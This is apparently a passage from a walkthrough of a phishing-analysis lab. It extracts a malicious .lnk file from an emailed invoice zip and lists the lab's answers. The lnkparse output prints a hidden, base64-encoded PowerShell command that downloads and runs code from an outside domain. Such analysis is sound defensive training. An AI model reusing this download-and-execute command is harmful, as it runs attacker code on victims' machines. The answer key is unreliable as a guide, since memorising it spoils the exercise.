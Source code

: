 We can see the **DKIM-Signature** section with **d=elasticmail.com**.

**Answer: elasticmail.com**

---

> ### What is the name of the file inside the encrypted attachment?

We can save the **attached file** in the email into the **Artefacts** folder.

![An email with an attachment named "Invoice.zip." The cursor is selecting "Save As..." from a menu. The email is signed by a "Collections Officer" from "B Packaging Inc."](https://cdn.hashnode.com/res/hashnode/image/upload/v1755603219150/5474c01a-4073-4ab5-b691-07d41937b28f.png align="center")

Let’s then extract the file inside, we will be prompted for the password which we already know by reading the email. It’s referred to as “code”.

We can see the name of the compressed file both before and after we extract it.

**Answer: Invoice\_20230103.lnk**

---

> ### What is the password of the encrypted attachment?

Looking at email above we know this.

**Answer: Invoice2023!**

---

> ### Based on the result of the lnkparse tool, what is the encoded payload found in the Command Line Arguments field?

Let’s open **terminal** inside the directory we are currently in (**Artefacts**).

Then as with the instructions.

<div data-node-type="callout">
<div data-node-type="callout-emoji">💡</div>
<div data-node-type="callout-text">Always read the instructions of each exercise thoroughly!</div>
</div>

We want to use **lnkparse** on the **.lnk file** from the email.

`lnkparse Invoice_20230103.lnk`

We will find something interesting:

```bash
Command line arguments: -nop -windowstyle hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==
```

Looks like a juicy **base64** encoded string to me.

**Answer: aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==**

---
